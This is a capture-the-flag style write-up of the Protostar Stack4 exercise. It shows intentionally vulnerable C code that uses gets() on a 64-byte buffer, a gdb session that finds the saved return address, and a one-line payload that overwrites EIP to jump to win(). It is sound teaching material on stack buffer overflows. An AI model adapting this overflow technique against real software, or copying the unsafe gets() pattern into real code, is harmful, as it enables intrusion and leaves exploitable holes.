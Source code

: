 #### Protostar Stack4 

##### About
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.  
  
This level is at /opt/protostar/bin/stack4

###### Hints
* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run < input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

BOF buffer to change the return value of function main().

##### Solution
```
$ python -c "print 'A'*64" > /tmp/payload
$ gdb stack4
......
(gdb) print win
$1 = {void (void)} 0x80483f4 <win>
......
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <+0>:    push   ebp
0x08048409 <+1>:    mov    ebp,esp
0x0804840b <+3>:    and    esp,0xfffffff0
0x0804840e <+6>:    sub    esp,0x50
0x08048411 <+9>:    lea    eax,[esp+0x10]       ; buffer[64]
0x08048415 <+13>:   mov    DWORD PTR [esp],eax
0x08048418 <+16>:   call   0x804830c <gets@plt> ; overflow
0x0804841d <+21>:   leave
0x0804841e <+22>:   ret
End of assembler dump.
......
(gdb) break *0x0804841d
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
......
(gdb) r < /tmp/payload
Breakpoint 1, main (argc=1, argv=0xbffff874) at stack4/stack4.c:16
(gdb) x/2x $ebp
0xbffff7c8:     0xbffff848      0xb7eadc76 ; <-- here are $ebp and $eip
......
(gdb) x/24x $esp
0xbffff770:     0xbffff780      0xb7ec6165      0xbffff788      0xb7eada75
0xbffff780:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff790:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7c0:     0x08048400      0x00000000      0xbffff848      0xb7eadc76
......
(gdb) quit
$ python -c "print 'A'*76 + '\xf4\x83\x04\x08'" | ./stack4
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>  
<https://thesprawl.org/research/exploit-exercises-protostar-stack/#stack-4>

